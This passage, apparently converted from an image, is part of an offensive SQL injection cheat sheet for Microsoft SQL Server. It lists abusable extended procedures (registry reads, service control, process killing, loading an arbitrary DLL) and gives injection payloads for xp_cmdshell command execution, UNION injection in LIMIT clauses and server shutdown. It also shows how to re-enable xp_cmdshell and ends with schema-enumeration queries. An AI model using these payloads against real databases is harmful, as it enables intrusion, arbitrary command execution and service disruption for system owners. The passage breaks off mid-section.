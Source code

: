 exec xp_regenumvalues HKEY_LOCAL_MACHINE, 'SYSTEM\CurrentControlSet\Services\snmp\parameters\validcommunities'

3. Managing Services (**xp_servicecontrol**)
4. Medias (**xp_availablemedia**)
5. ODBC Resources (**xp_enumdsn**)
6. Login mode (**xp_loginconfig**)
7. Creating Cab Files (**xp_makecab**)
8. Domain Enumeration (**xp_ntsec_enumdomains**)
9. Process Killing (*need PID*) (**xp_terminate_process**)
10. Add new procedure (*virtually you can execute whatever you want*)
sp_addextendedproc 'xp_webserver', 'c:\temp\x.dll'
exec xp_webserver
11. Write text file to a UNC or an internal path (sp_makewebtask)

#### MSSQL Bulk Notes

`SELECT * FROM master..sysprocesses /*WHERE spid=@@SPID*/`

`DECLARE @result int; EXEC @result = xp_cmdshell 'dir *.exe';IF (@result = 0) SELECT 0 ELSE SELECT 1/0`

HOST_NAME()
IS_MEMBER (Transact-SQL)
IS_SRVROLEMEMBER (Transact-SQL)
OPENDATASOURCE (Transact-SQL)
INSERT tbl EXEC master..xp_cmdshell OSQL /Q"DBCC SHOWCONTIG"

OPENROWSET (Transact-SQL)  - http://msdn2.microsoft.com/en-us/library/ms190312.aspx

You can not use sub selects in SQL Server Insert queries.

#### SQL Injection in LIMIT (M) or ORDER (MSO)

`SELECT id, product FROM test.test t LIMIT 0,0 UNION ALL SELECT 1,'x'/*,10 ;`

If injection is in second *limit* you can comment it out or use in your union injection

#### Shutdown SQL Server (S)

When you're really pissed off, `';shutdown --`

### Enabling xp_cmdshell in SQL Server 2005

By default xp_cmdshell and couple of other potentially dangerous stored procedures are disabled in SQL Server 2005. If you have admin access then you can enable these.

`EXEC sp_configure 'show advanced options',1 [[NEWLINE]]RECONFIGURE`
`EXEC sp_configure 'xp_cmdshell',1 [[NEWLINE]]RECONFIGURE`

### Finding Database Structure in SQL Server (S)

#### Getting User defined Tables

`SELECT name FROM sysobjects WHERE xtype = 'U'`

#### Getting Column Names
